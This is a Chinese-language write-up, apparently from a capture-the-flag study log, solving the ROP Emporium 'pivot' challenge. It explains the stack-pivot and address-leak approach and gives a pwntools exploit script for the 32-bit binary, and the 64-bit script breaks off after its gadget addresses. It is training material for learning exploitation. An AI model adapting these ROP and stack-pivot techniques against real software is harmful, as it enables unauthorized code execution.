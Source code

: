 所以我們需要先 decompiler libpivot.so 看看

然後要注意的是， libpivot.so 有開啟 PIE 

然後我們 overflow 那邊，只可以輸入 58 個字

44 - 48 蓋到 ret ，其餘只剩下十個字，長度並不夠，所以需要 stack pivot

然後利用 foothold_function() 來 leak 位址後去算 ret2win() 的位址


```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/pivot32')

leave_ret = 0x080486a8
foothold_got = 0x804a024
foothold_plt = 0x80485f0

r.recvuntil('kindly bestow upon you a place to pivot: ')
heap_addr = int(r.recvuntil('\n')[:-1], 16)
print "heap addr: ", hex(heap_addr)

pop_eax = 0x080488c0
call_eax = 0x080486a3
pop_ebx = 0x08048571
mov_eax_deax = 0x080488c4
add_eax_ebx = 0x080488c7
ret2win_off = 0x967
foothold_off = 0x770
offset = ret2win_off - foothold_off

pay1 = flat([ foothold_plt, pop_eax, foothold_got, mov_eax_deax, pop_ebx, offset, add_eax_ebx, call_eax ])
r.sendlineafter('> ', pay1)

pay2 = ''.ljust(40, 'a') + flat([ heap_addr-4, leave_ret ])
r.sendlineafter('> ', pay2)

r.interactive()
```

## pivot

改為 64-bit

這裡有一個卡得比較久，就是 leave_ret 都有 0a 所以不能用，要用其他的

一開始沒注意這個...


```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'

r = process('/tmp/p/pivot')

r.recvuntil('Gods kindly bestow upon you a place to pivot: ')
heap_addr = int(r.recvuntil('\n')[:-1], 16)
print "heap addr: ",hex(heap_addr)

call_rax = 0x000000000040098e
leave_ret = 0x0000000000400a39 # mov ebp, esp ; pop ebp
foot_plt = 0x400850
foot_got = 0x0000000000602048
```